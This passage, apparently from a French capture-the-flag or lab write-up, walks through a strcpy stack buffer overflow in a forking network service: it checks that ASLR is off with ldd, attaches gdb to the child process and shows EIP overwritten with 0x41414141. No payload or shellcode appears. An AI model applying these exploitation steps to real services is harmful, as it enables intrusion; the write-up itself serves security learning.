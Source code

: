 Surprise ! Un classique buffer-overflow via l'utilisation de *strcpy*. Le buffer réservé sur la pile est de 136 octets.  

En plus l'ASRL n'est pas activé car les adresses des librairies sont les même d'une exécution à l'autre :  

```plain
sh-2.05b# ldd /bin/cat
        linux-gate.so.1 =>  (0xffffe000)
        libc.so.6 => /lib/libc.so.6 (0x40022000)
        /lib/ld-linux.so.2 (0x40000000)
sh-2.05b# ldd /bin/cat
        linux-gate.so.1 =>  (0xffffe000)
        libc.so.6 => /lib/libc.so.6 (0x40022000)
        /lib/ld-linux.so.2 (0x40000000)
```

Afin de tester l'exploitation de cette vulnérabilité on va récupérer l'exécutable sur notre système puis le soumettre à *gdb*.  

Comme le programme fork() à chaque client il est préférable de se connecter d'abord via *ncat* puis retrouver le pid du processus fils via *pstree -p* et enfin attacher le processus dans *gdb*.  

Comme le process se met en pause au rattachement on le remet en marche via *'c'* ou *'continue'* puis on envoie une chaîne de test (un max de A par exemple) :  

```plain
(gdb) attach 10340
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) info regs
Undefined info command: "regs".  Try "help info".
(gdb) regs
Undefined command: "regs".  Try "help".
(gdb) info registers
eax            0xfffc0c90       -258928
ecx            0xfffc0e00       -258560
edx            0xfffc0d2c       -258772
ebx            0xf770d000       -143601664
esp            0xfffc0d10       0xfffc0d10
ebp            0x41414141       0x41414141
esi            0x0      0
edi            0x0      0
eip            0x41414141       0x41414141
eflags         0x10202  [ IF RF ]
cs             0x23     35
ss             0x2b     43
ds             0x2b     43
es             0x2b     43
fs             0x0      0
gs             0x63     99
```
